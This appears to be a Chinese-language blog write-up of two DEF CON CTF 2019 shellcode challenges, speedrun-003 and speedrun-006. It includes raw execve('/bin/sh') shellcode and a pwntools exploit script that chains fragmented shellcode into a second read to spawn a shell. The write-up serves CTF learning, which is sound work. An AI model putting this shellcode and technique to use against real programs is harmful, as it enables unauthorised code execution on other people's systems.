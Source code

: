 ```yaml
---
layout:     post
title:      "Defcon ctf 2019之我好菜"
date:       2019-05-14
author:     "Ambi9u0us"
catalog: true
tags:
    - ctf
    - Writeup
    - speedrun
    - defcon ctf 2019
---
```


# Defcon ctf 2019 之菜鸟爬山

## 前言

这次defcon ctf 2019，尝试去做了一下，然后发现两眼一抹黑，看了为数不多的几道题，最后都没有做出来，最后只做了两道speedrun，分别是003和006，两道都是关于shellcode构造的题，好歹是学了点东西，权作总结。

## speedrun-003

首先使用IDA打开文件，分析可以发现主要流程在函数`get_that_shellcode()`中：

![1557815993760](../img/in-post/1557815993760.png)

大意就是读取用户输入的30字节大小的字符串，然后保证前15个字符与后15个字符异或的值相等，然后就执行该段shellcode。

这里的重点在于，当前29个字节异或的值与最后一个字节值相等时，必定满足该条件，所以只需要找一段小于30字节的shellcode就可以了，这里找到了一段执行execv(‘/bin/sh’,0,0)的shellcode：

```c
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```

将shellcode补足30个字节，并且计算前29个字节异或的值填到最后一个字节，使用pwntools编写脚本，即可getshell。

## speedrun-006

使用IDA打开文件，主要函数是`get_that_shellcode()`：

![1557816501982](../img/in-post/1557816501982.png)

用户要输入26个字节大小的shellcode，然后会进入函数`shellcode_it()`函数：

![1557816599412](../img/in-post/1557816599412.png)

这个函数主要是对输入的26个字节进行处理，最后放到了一段总长度为78字节的区域，然后运行这一段区域的代码，值得注意的是，前48个字节主要是进行了将寄存器统统置0的操作，后面30个字节是将26个字节中间插入4个0xcc，将其截断，分割成5，4，9，8四个部分，所以要解决的问题就是两点：

- shellcode分片构造(比较好构造，就不多做介绍)
- 消除寄存器被置0的影响

由于寄存器被置0，这就不得不提syscall这个指令的骚操作，这种方法主要是当寄存器的值都为0时，执行syacall会将rip的值给到rcx，所以分片构造时，合理利用rcx实现syscall_read()的效果，就可以不受字节数限制，发送新的获取shell的shellcode了：

```python
shellcode=asm("""
	syscall;
	jmp xx;
	nop;
	nop;
	xx:
	jmp yy;
    ret
    nop
    yy:
    xor rsi,rcx;
    xor edx,ecx;
    syscall
	"""
,os="linux"
,arch="amd64")
# 0f05eb029090eb02c3904831ce31ca0f05
shellcode=shellcode.ljust(26,'\x01') 
p.recvuntil("ride")
p.send(shellcode)

payload="\x90"*0x30+asm("xor rsp,rcx;add rsp,0x500",os="linux",arch="amd64")+asm(shellcraft.amd64.sh(),os="linux",arch="amd64")
p.send(payload)
p.interactive() #get the shell
```

这里主要解释xor rsi,rcx;xor edx,ecx;这两行汇编代码，这里是实现了调用`syscall_read(eax,rsi,edx,rdi)`，其中eax已经为0，代表`syscall_read()`的系统调用号，rsi则是read读到的数据存储的起始地址（这里对应syscall第一次执行时的位置），edx则是对应长度（对应syscall所处内存地址普遍很大，足够读取shellcode），rdi为0代表是从标准输入读入数据，所以我们才能再次传入shellcode执行获得shell。

这里可以通过练习`star ctf 2018`的`primepwn`来熟悉这一方法，[题目地址](<https://github.com/sixstars/starctf2018/tree/master/pwn-primepwn>)以及对该题目的一个解法讲解的博客[文章地址](<http://eternalsakura13.com/2018/04/27/star_primepwn/>)可以点击进行查看。
